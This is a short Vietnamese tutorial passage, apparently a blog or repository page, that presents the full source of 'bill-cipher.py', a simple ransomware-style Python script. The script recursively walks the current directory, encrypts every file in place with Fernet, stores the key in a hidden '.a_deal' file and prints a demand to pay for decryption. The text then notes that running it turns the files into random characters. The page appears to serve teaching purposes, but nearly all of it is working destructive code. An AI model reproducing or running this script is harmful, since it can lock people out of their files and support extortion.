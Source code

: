 Thế là xong chương trình mã hóa file (`bill-cipher.py`). Đây là code cho chương trình mã hóa này:

```py
#!/usr/local/bin/python3 

import os
from cryptography.fernet import Fernet

def find_files():
	files = []
	
	for file in os.listdir():
		if file == "bill-cipher.py" or file == ".a_deal" or file == "bill-decipher.py":
			continue
		
		if os.path.isfile(file):
			files.append(file)
		else:
			os.chdir(file)
			sub_files = find_files()
			os.chdir("..")
			for subfile in sub_files:
				path = file + "/" + subfile
				files.append(path)
			
	return files

files = find_files()

print(files)

key = Fernet.generate_key()

with open(".a_deal", "wb") as deal:
	deal.write(key)

for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_encrypted = Fernet(key).encrypt(content)

	with open(file, "wb") as f:
		f.write(content_encrypted)

print("File đã bị mã hóa! Trả tiền thì sẽ giải mã")
```

Nếu như mình chạy file `bill-cipher.py` thì có thể thấy là các file mà chương trình này tìm được sẽ bị mã hóa và trở thành file chứa 1 đống chữ cái, ký tự random.

![file1-encrypted](/img/file1-encrypted.png)
